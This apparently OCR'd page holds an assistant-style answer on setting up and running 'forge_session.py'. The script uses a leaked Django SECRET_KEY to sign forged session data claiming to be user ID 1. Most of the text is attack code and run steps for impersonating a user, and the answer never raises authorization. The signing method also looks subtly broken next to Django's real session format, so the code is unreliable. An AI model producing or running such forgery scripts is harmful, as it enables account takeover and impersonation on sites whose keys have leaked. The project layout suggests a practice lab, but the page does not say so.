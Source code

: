 To run the script that signs session data, you can place it in any folder that has access to your Django environment and dependencies. Here are the steps to properly run the script:

```bash
python3 -m venv .venv
source .venv/bin/activate

pip install --upgrade pip
pip install django
pip install -r requirements.txt

python3 manage.py runserver
python3 forge_session.py
```

To ensure your script runs correctly from the `impersonate/impersonate` folder within your Django project, you need to adjust the Python path and the `DJANGO_SETTINGS_MODULE` environment variable appropriately.

Here's how you can adapt your script:

### Updated Script: `forge_session.py`

Place the script in the `impersonate/impersonate` folder and modify it as follows:

```python
import os
import sys
import json
import base64
from django.conf import settings
from django.core.signing import Signer

# Determine the project's root directory and add it to the Python path
project_root = os.path.abspath(os.path.join(os.path.dirname(__file__), '../../'))
sys.path.append(project_root)

# Set up Django settings
os.environ.setdefault('DJANGO_SETTINGS_MODULE', 'crudproject.settings')
import django
django.setup()

# The SECRET_KEY from the leaked settings
SECRET_KEY = 'your-leaked-secret-key'

# Sample session data
session_data = {
    '_auth_user_id': '1',  # ID of the user to impersonate
    '_auth_user_backend': 'django.contrib.auth.backends.ModelBackend',
}

# Serialize and sign the session data
session_data_json = json.dumps(session_data)
session_data_encoded = base64.b64encode(session_data_json.encode()).decode()
signer = Signer(key=SECRET_KEY)
signed_session_data = signer.sign(session_data_encoded)

print(f'Session Cookie: {signed_session_data}')
```

### Explanation

1. **Determine Project Root and Add to Python Path**:
   - `project_root = os.path.abspath(os.path.join(os.path.dirname(__file__), '../../'))` calculates the absolute path to the root of the project by navigating two levels up from the current script's directory.
   - `sys.path.append(project_root)` adds the project root directory to the Python path, ensuring that Python can locate the `crudproject` module.

2. **Set the Environment Variable**:
   - `os.environ.setdefault('DJANGO_SETTINGS_MODULE', 'crudproject.settings')` sets the `DJANGO_SETTINGS_MODULE` environment variable to point to your project's settings module.

3. **Initialize Django**:
   - `import django` and `django.setup()` initialize Django. This ensures that settings are properly loaded and available.

### Directory Structure for Reference

Here's the relevant part of your project structure:

```
my_django_project/
├── README.md
├── crudapp/
│   ├── __init__.py
│   ├── __pycache__/
│   ├── admin.py
│   ├── apps.py
│   ├── forms.py
│   ├── management/
│   │   └── commands/
│   │       ├── __init__.py
│   │       └── impersonate_user.py
│   ├── migrations/
│   │   ├── 0001_initial.py
│   │   ├── __init__.py
│   ├── models.py
│   ├── templates/
│   ├── tests.py
│   ├── urls.py
│   └── views.py
├── crudproject/
│   ├── __init__.py
│   ├── __pycache__/
│   ├── asgi.py
│   ├── manage.py
│   ├── settings.py
│   ├── static/
│   ├── urls.py
│   └── wsgi.py
├── db.sqlite3
├── impersonate/
│   ├── impersonate/
│   │   └── forge_session.py  # <- Place your script here
└── manage.py
└── media/
└── requirements.txt
```

### Running the Script

1. **Activate Virtual Environment** (if you are using one):
   ```bash
   source path/to/your/virtualenv/bin/activate
   ```

2. **Navigate to the `impersonate/impersonate` Directory**:
   ```bash
   cd /path/to/your/project/impersonate/impersonate
   ```

3. **Run the Script**:
   ```bash
   python forge_session.py
   ```

### Summary

By adding the project root directory to the Python path and setting the correct environment variable, you ensure that Django can find and load your settings. This setup allows your script to run within the context of your Django project with all necessary configurations.
